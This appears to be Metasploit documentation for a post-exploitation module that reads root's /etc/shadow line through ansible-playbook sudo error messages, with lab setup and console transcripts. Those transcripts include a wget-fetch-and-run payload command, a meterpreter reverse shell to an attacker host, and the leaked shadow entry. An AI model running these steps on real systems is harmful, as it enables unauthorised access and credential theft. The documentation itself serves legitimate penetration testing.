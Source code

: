 ## Vulnerable Application

This module will read the first line of a file based on an error message from ansible-playbook with sudo privileges.
ansible-playbook takes a yaml file as input, and if there is an error, such as a non-yaml file, it outputs the line
where the error occurs. This can be exploited to read the first line of the file, which we'll typically want to read
/etc/shadow to obtain root's hash.

### Docker-compose Install

Use the ansible lab files located [here](https://github.com/abdennour/ansible-lab-environment-in-containers).

Before bringing up the `docker-compose` instance, you'll want to generate an SSH key: `ssh-keygen -t rsa -N "" -f secrets/id_rsa`

Of note, only 1 of the 3 alpine hosts will be successful due to the port conflict. This is fine though.

Next you'll need to add a user:

```
docker exec -it ansible-lab-environment-in-containers_controlnode_1 /bin/sh
useradd user
chmod o+w /etc/sudoers
echo -ne "\nuser ALL=(ALL) NOPASSWD: /usr/local/bin/ansible-playbook *\n" >> /etc/sudoers
chmod o-w /etc/sudoers
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Get an initial shell on the box
1. Do: `use post/linux/gather/ansible_playbook_error_message_file_reader`
1. Do: `set session [#]`
1. Do: `run`
1. You should be able to read the top line of a file.

## Options

### ANSIBLEPLAYBOOK

Location of ansible-playbook executable if not in a standard location. This is added to a list of default locations
which includes `/usr/local/bin/ansible-playbook`, `/usr/bin/ansible-playbook`. Defaults to ``

### FILE

File to be read. Defaults to `/etc/shadow`

## Scenarios

### Docker compose as mentioned above

Get initial access to the system

```
resource (ansible_playbook.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (ansible_playbook.rb)> set lhost 192.168.2.128
lhost => 192.168.2.128
resource (ansible_playbook.rb)> set srvport 8181
srvport => 8181
resource (ansible_playbook.rb)> set lport 8183
lport => 8183
resource (ansible_playbook.rb)> set target 7
target => 7
resource (ansible_playbook.rb)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (ansible_playbook.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.2.128:8183 

[*] Using URL: http://192.168.2.128:8181/I5062GM5P5Avgu
[*] Server started.
[*] Run the following command on the target machine:
wget -qO lAM5H81x --no-check-certificate http://192.168.2.128:8181/I5062GM5P5Avgu; chmod +x lAM5H81x; ./lAM5H81x& disown

[*] Starting persistent handler(s)...
[*] 172.28.0.3       web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 172.28.0.3
[*] Meterpreter session 1 opened (192.168.2.128:8183 -> 172.28.0.3:37216) at 2023-12-13 14:58:36 -0500
[msf](Jobs:1 Agents:1) post(linux/gather/ansible_playbook_error_message_file_reader) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/playbook) > getuid
Server username: user
(Meterpreter 1)(/playbook) > cat /etc/shadow
[-] core_channel_open: Operation failed: 1
(Meterpreter 1)(/playbook) > background
[*] Backgrounding session 1...
```

```
resource (ansible_playbook.rb)> use post/linux/gather/ansible_playbook_error_message_file_reader
resource (ansible_playbook.rb)> set session 1
session => 1
resource (ansible_playbook.rb)> set verbose true
verbose => true
[msf](Jobs:1 Agents:1) post(linux/gather/ansible_playbook_error_message_file_reader) > run

[*] Checking sudo
[*] Executing: sudo -n -l
[*] Executing: sudo -n /usr/local/bin/ansible-playbook /etc/shadow
[+] root:!::0:::::
[*] Post module execution completed
```